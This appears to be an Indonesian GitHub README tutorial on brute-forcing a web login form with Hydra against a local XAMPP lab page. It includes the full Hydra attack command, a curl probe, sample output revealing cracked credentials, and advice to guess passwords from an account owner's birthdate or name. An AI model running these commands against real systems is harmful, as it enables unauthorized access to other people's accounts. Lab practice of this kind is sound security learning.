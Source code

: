 # hydra-brute-force
Brute-force adalah metode serangan dalam keamanan siber yang melibatkan percobaan berulang-ulang untuk menebak informasi sensitif, seperti password, username, atau kunci enkripsi, hingga menemukan kombinasi yang benar. Dalam serangan brute-force, semua kemungkinan kombinasi diperiksa satu per satu, tanpa mengandalkan celah atau kerentanan selain mencoba setiap opsi yang mungkin.

# Hydra 
Hydra adalah alat brute-force yang digunakan untuk menguji kerentanannya dengan mencoba berbagai kombinasi username dan password untuk berbagai protokol atau layanan. Ini sering digunakan dalam pengujian keamanan untuk menemukan kredensial yang valid.
````
hydra -L user.txt -P pass.txt -t 4 -V 192.168.1.2 http-post-form "/pe/low.php:username=^USER^&password=^PASS^:Login gagal. Username atau password salah." | tee -a fixpassworddanuser.txt

````


## Penjelasan: <br>
**`hydra`**: Perintah Hydra untuk melakukan brute-force.<br>

**`-L`** user.txt: File yang berisi daftar username.<br>

**`-P`** pass.txt: File yang berisi daftar password.<br>



**`-t 4`**: Mengatur jumlah thread yang akan digunakan oleh Hydra untuk melakukan serangan. Dalam hal ini, 4 thread akan digunakan secara bersamaan. Menggunakan lebih banyak thread dapat mempercepat proses brute-force tetapi juga meningkatkan beban pada sistem target dan jaringan.<br>


**`-V`**: Mengaktifkan mode verbose untuk menampilkan proses brute-force secara terperinci.<br>

**`192.168.1.2`**: Alamat IP dari server target yang akan diuji. Hydra akan mengarahkan serangan brute-force ke server ini.<br>

**`http-post-form`**: Menunjukkan jenis serangan yang akan dilakukan, yaitu HTTP POST form. Hydra akan mengirimkan permintaan POST ke form login yang ditentukan.<br>

**`/pe/low.php`**: Path ke halaman login form pada server target.<br>

**`username=^USER^&password=^PASS^`**: Parameter form yang diisi oleh Hydra(username dan password). <br>

**`:Login gagal. Username atau password salah.`**: String yang digunakan Hydra untuk mendeteksi kegagalan login.<br>

**`| tee -a fixpassworddanuser.txt`**: Perintah ini digunakan untuk menyimpan output Hydra yang mengandung username dan password yang benar ke dalam file fixpassworddanuser.txt.<br>


<br>
<br>


# cara pengguna 
saya di sini mengunakan server localhost  yaitu xampp  pertama download folder **`pe`** lalu  simpan di folder xampp htdocs  contoh  **`C:\xampp1\htdocs`**
 jika sudah maka masuk ke system oprasi linux <br>
 di linux alian simpan folder **`user dan password`** di linux yang penting file  pass.txt dan user.txt muda di jangkau <br>
 lalu kita mulai penetrasi server  pastikan server on jika suda buka terminal  sadisini mengunakan  **`kali linux`**
 ````
sudo apt update 
sudo apt install hydra

 ````

jika suda launjutmengamati target reaksi yang di timbul  contohnya pada **`pe/low.php`** kerika terjadi kesalanhan akan timbul pesan **`:Login gagal. Username atau password salah.`** kita dapat memanfatakan fungs **`curl`** sebagai berikut <br>
````
curl -X POST -d "username=admin&password=admi" http://192.168.1.2/pe/low.php
````
maka ouputnya akan seperti ini
```
┌──(udi㉿akhmadpc)-[~/Documents]
└─$ curl -X POST -d "username=admin&password=admi" http://192.168.1.2/pe/low.php                                                                                      

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
</head>
<body>
    <h2>Form Login low</h2>
    <form method="post" action="">
        Username: <input type="text" name="username" required><br>
        Password: <input type="password" name="password" required><br>
        <input type="submit" value="Login">
    </form>
    <p>Login gagal. Username atau password salah.</p>
</body>
</html>

```


jika suda mendapatakan target yanng d tentukan maka launjut menyesuaikan **`hydra -L user.txt -P pass.txt -t 4 -V 192.168.1.2 http-post-form "/pe/low.php:username=^USER^&password=^PASS^:Login gagal. Username atau password salah." | tee -a fixpassworddanuser.txt`**

dan tunggu proseser penetrasi sampai selesai 
<br> jika selesai maka buka file **`fixpassworddanuser.txt`** pada folder yang ada tentukan sebelumnya atau di tepat **`pass.txt dan user.txt`** di simpan lalu buka pada file tersebut berisi hasil dari brute suite yang telah di kerjakan 
````
[ATTEMPT] target 192.168.1.2 - login "123456" - pass "password!2024" - 170 of 28900 [child 3] (0/0)
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "123456" - 171 of 28900 [child 2] (0/0)
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "admin" - 172 of 28900 [child 1] (0/0)
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "password" - 173 of 28900 [child 0] (0/0)
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "123456789" - 174 of 28900 [child 3] (0/0)
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "12345678" - 175 of 28900 [child 2] (0/0)
[80][http-post-form] host: 192.168.1.2   login: admin   password: admin
[ATTEMPT] target 192.168.1.2 - login "password" - pass "123456" - 341 of 28900 [child 1] (0/0)
[ATTEMPT] target 192.168.1.2 - login "password" - pass "admin" - 342 of 28900 [child 0] (0/0)
[ATTEMPT] target 192.168.1.2 - login "password" - pass "password" - 343 of 28900 [child 3] (0/0)
````


Ciri-ciri login berhasil dari hasil brute force menggunakan Hydra adalah: <br>
### Log dengan format [80][http-post-form]: Baris ini menunjukkan bahwa Hydra telah berhasil melakukan login menggunakan kombinasi username dan password tertentu.
dari contoh di atas sudah di pastikan bahwa **`[80][http-post-form] host: 192.168.1.2   login: admin   password: admin`** adalah user dan password **`admin`** 

## perlu di perhatikan 
user dan password perlu di teliti lagi diman key yang di gunakan memiliki banyaka variasi kita harus mengetahu data dari pemilik server, Saat mencoba masuk ke akun, penting untuk tahu bahwa orang sering menggunakan nama atau tanggal lahir mereka sebagai username atau password. Jika kita tahu sedikit tentang orang yang memiliki akun, seperti tanggal lahirnya, kita bisa mencoba kombinasi yang mungkin mereka gunakan. Ini bisa membantu kita menemukan password yang benar lebih cepat.
